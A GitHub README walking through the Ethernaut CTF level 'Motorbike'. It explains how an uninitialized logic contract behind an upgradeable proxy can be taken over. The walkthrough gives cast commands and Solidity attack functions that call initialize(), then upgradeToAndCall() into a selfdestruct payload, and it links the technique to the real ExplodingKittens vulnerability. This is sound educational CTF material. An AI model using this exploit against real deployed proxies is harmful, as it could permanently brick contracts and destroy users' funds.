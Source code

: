 # Ethernaut Walkthrough: Motorbike
## Welcome to KweenBirb's 26th installment of Ethernaut walkthroughs! 

Ethernaut is a set of gamified Solidity challenges in the style of a CTF, where each level features a hackable smart contract that will inform you of various known security vulnerabilities on EVM blockchains.

This repo will walk you through a solution to Motorbike.sol, the 26th challenge in the series. You can find the challenge itself and fully fleshed out solution in the .txt file in the root directory and .sol file in the ./src directory. Let's begin!

In this challenge, Ethernaut gives us yet another upgradeable proxy pattern contract, this time asking us to 'selfdestruct its engine and make the motorbike unusable'

This challenge features a proxy just like the last challenge: Puzzle-Wallet, go check it out if you haven't already as this challenge will make a lot more sense having gone through that one. I actually just recently read of the exploit dubbed "explodingKittens" that thankfully was discovered before any damage could be done. It's a severe vulnerability that could have been abused to brick tens (possibly hundreds) of millions of dollars. Funny enough, while solving the previous challenge I was at first convinced we would need to explode some kittens, only belatedly realizing it was a much simpler storage overlap situation. This challenge however looks prime for exploding some kittens!

The 2021 ExplodingKittens exploit is premised on the fact that many upgradeable proxy contracts possess their upgrade logic in the logic implementation contract and that calls are delegatecalled via a fallback function. This proxy pattern, while immensely useful, can be terribly disastrous if a dapp does not take care to initialize its logic implementation contract (logic implementation contracts' initialize function must be manually invoked, unlike constructors). In such a case, an attacker may be able to gain permissioned access within a logic contract and maneuver laterally within to wreak other havoc.

So, let's see if we can't bypass the proxy entirely and call the initialize function on the logic implementation contract itself.

First let's locate the target logic implementation contract. There are a variety of ways to do this, via some sleuthing on Etherscan, using OpenZeppelin's awesome library of nifty proxy functions, or using Foundry's cast storage command. 

Personally I chose to use Foundry for this, but if you're more comfortable using Javascript I included that approach as well.

## Foundry's cast storage command

Remember that all storage variables and bytecode are ALWAYS public on-chain. There is nowhere to hide. Since we have the Motorbike's source code via Ethernaut, all we need to do is read from the storage slot termed _IMPLEMENTATION_SLOT (assigned 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc) specified at the top of the contract.

```cast storage $your_ethernaut_instance 0x360894a13ba1a3210667c828492db98dca3e2076cc3735a920a3ca505d382bbc```

Where $your_ethernaut_instance is set by a simple export:

```export instance=0xd00d00beefb00b```

## The OpenZeppelin JS option

If you go the OpenZeppelin route, a short js script will do the trick:

```
import {getImplementationAddress} from '@openzeppelin/upgrades-core'
const targetImpl = await getImplementationAddress(provider, proxyAddress)
```

Where your proxyAddress would be $your_ethernaut_instance and the provider would be easily set using the Ethers library. I've included the completed js script is in the ```script``` directory of this repo; it uses the common ethers js framework as well as the ever-useful dotenv library to establish a connection to Rinkeby via Infura.

When we run our nifty getImplementation.js script, a target address is returned to us in the console:

![alt text](https://github.com/robriks/motorbike/../../../../script/result.png)

## Once we've identified the logic implementation contract address

Looking back at the proxy, we see that the proxy contract is initialized in the proxy constructor:

```
    (bool success,) = _logic.delegatecall(
        abi.encodeWithSignature("initialize()")
    );
    require(success, "Call failed");
```

But there's no call to initialize the logic contract in sight! To be sure, let's run some quick checks to see if the logic implementation is initialized:

```cast call $IMPL --rpc-url $RPC "upgrader():(address)"```
```cast call $IMPL --rpc-url $RPC "horsePower():(uint256)"```

0 all around!? QUICK, CALL INITIALIZE() BEFORE SOME OTHER H4CK3R DOES! (or, as we are about to do, write it into a malicious contract for the element of surprise ;) )

```cast send --private-key $PRIV_KEY $IMPL --rpc-url $RPC "initialize()"```

Howly h00ts, I'M IN!!! 😈😈😈😈😈

PWND! With upgrader set to h4xz0r KweenBirb's address, we can now call upgradeToAndCall() to set a logic implementation 'engine' with a selfdestruct() function for the original logic implementation 'engine' to call! Teehee, we're gonna blow this Motorbike Engine to smithereens and set all the funds involved on 🔥🔥🔥fire🔥🔥🔥!

That way, once the Engine contract is selfdestructed, the proxy contract will be bricked, stuck calling an empty contract for its functions. The only way our plan could be foiled is if the delegatecall architecture checks for extcodesize() to prevent this. Looking at the _delegate fallback, we can see indiscriminate delegatecall assembly handling every call forwarded to the fallback function:

```
    function _delegate(address implementation) internal virtual {
        // solhint-disable-next-line no-inline-assembly
        assembly {
            calldatacopy(0, 0, calldatasize())
            let result := delegatecall(gas(), implementation, 0, calldatasize(), 0, 0)
            returndatacopy(0, 0, returndatasize())
            switch result
            case 0 { revert(0, returndatasize()) }
            default { return(0, returndatasize()) }
        }
    }
```

Aaaaand no extcodesize() logic to save the proxy if we brick it. Perfect.

## Let's get cracking, shall we?

Let's format a malicious contract function invoking selfdestruct():

```
function payload() public {
        selfdestruct(0x000000000000000000000000000000000000dEaD);
    }
```

And then invoke it using the Engine's convenient function intended for the proxy Motorbike to both set a new implementation and presumably initialize it in a single transaction. Of course, we'll be setting things on fire instead.

```
function sugarInYourEngine() public {
        // become upgrader by initializing logic engine
        engine.initialize();
        engine.upgradeToAndCall(address(this), abi.encodeWithSignature("payload()"));
    }
```

With that, all we need to do is deploy our malicious contract and call sugarInYourEngine() to clog and explode the engine of Ethernaut's Motorbike. Pretty rude, if you ask me. But it had to be done.
○•○ h00t h00t ○•○
